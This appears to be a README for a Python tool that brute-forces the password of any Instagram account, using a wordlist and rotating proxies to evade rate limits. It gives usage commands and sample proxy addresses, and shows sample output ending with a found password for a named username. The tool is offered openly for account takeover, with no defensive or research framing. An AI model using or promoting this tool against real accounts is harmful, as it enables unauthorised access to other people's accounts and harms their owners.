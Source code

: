 # Instagram Bruter
This program will brute force any Instagram account you send it its way given a list of proxies.

# Proxies 
The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.

# Upload
Upload a list of proxies into the program. The proxy file must have a format of ip:port
proxies_list.txt
```
python.exe .../instagram.py -px .../proxies_list.txt
```
```
172.67.190.88:80
172.64.18.156:80
98.162.25.7:31653
98.178.72.21:10919
```

# Stats
This gives an insight into the health of the proxies in the database.
```
.../python.exe .../instagram.py --stats
```

# Usage
python instagram.py -u <username> -p <passlist>

# Run
[-] Wordlist: passlist.txt
[-] Username: sss.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True

# Stop
[-] Wordlist: passlist.txt
[-] Username: sss.1
[-] Password: sss.123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: sss.1
[+] Password: sss.123


# Demo


